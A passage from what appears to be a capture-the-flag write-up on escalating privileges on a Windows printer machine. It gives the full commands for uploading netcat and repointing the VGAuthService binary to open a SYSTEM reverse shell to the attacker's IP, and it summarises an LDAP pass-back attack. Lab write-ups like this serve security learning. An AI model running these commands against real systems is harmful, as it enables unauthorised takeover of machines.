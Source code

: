 ![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__g6xrEnARnOOC0aEfBRUiDw.png)

#### Privilege escalation — Service binary manipulation

The service account svc-printer is a member of the **server operators** AD security group which means I can control the various services on the victim’s machine. I abuse the privilege via the following steps and was successful, obtaining a reverse shell as **NT Authority\\System.**

*   Upload the net cat binary executable (nc.exe) from my machine to the victim’s machine
*   Change the service binary of a **privileged** service to point to command prompt application (**cmd.exe**) and have it start net cat on any available port. This is to avoid reverse shell instability due net cat not meeting full requirements for a service binary executable. I will be using the **VGAuthService** service.
*   Config a net cat listener on my Kali Linux attacking machine to listen on the port selected previous step
*   Restart the aformentioned service and catch the elevated reverse shell.

Explanation of several parts of the command statement to change service binary executable to net cat is listed below. Refer to the **Figure 14**.

*   cmd /c — Start the native Windows command prompt, execute the program provided as input to /c , and then exit command prompt
*   \-e — Flag to tell netcat to execute a program on victim’s machine upon successful reverse shell connection (in this case the command prompt)

upload /Desktop/nc.exe

![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__q__D7xYWqpIwOURuU__Zlrxg.png)
![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__fHBzxtWDza__420xxS__JStQ.png)

sc.exe config VGAuthService binpath="C:\\windows\\system32\\cmd.exe /c C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.2 4444"

![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__i2casPYDRBczzo9z6sh6hQ.png)

sc.exe stop VGAuthService

sc.exe start VGAuthService

![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__E5fJv41rZNQdOOSyLziwMQ.png)

![](C:\Users\Liwei\Downloads\medium-export-278649ace7c60a598caa62c8d4e8711680997ae92f7b6c3a6e3c9c4fd19b812a\posts\md_1740363296828\img\1__13mSVQf7OJHUZjA1jNGJxQ.png)

### Vulnerability Summary

This machine contained the following vulnerabilities:

*   **Broken Access Control** — As a result of no user authentication control on the network printer administrative interface page, I was able to access the settings page and substitute a malicious LDAP server address to begin the LDAP pass back attack
*   **Security misconfiguration** — As a result of the service account, **svc-printer** belonging to the privileged security group, **server operators**, I was able to change the service executable binary for a privileged service to the malicious net cat executable in lieu.